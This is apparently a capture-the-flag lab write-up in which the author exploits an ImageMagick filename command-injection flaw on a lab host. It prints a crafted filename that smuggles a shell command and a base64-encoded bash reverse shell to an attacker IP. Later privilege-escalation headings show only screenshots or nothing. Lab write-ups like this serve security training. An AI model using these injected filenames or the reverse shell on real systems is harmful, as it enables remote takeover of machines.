 #Pwned! 
```IP
192.168.195.178
```
# Enumeration

## HTTP 80
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127102213.png?raw=true)

# Exploitation
We find the following Remote Code Execution vulnerablity:
https://github.com/ImageMagick/ImageMagick/issues/6339
We test it with ping
```
cp test.png '|test"`ping -c 5 192.168.45.237`".jpg'
```
Indeed we receive a response
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127102941.png?raw=true)
```
echo "bash -i >& /dev/tcp/192.168.45.237/80 0>&1" |base64
```
```
cp test.png '|test"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNy84MCAwPiYxCg==|base64 -d|bash`".jpg'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127111925.png?raw=true)
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127112224.png?raw=true)
## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127112623.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241127112643.png?raw=true)
### Mimikatz

# Lateral Movement

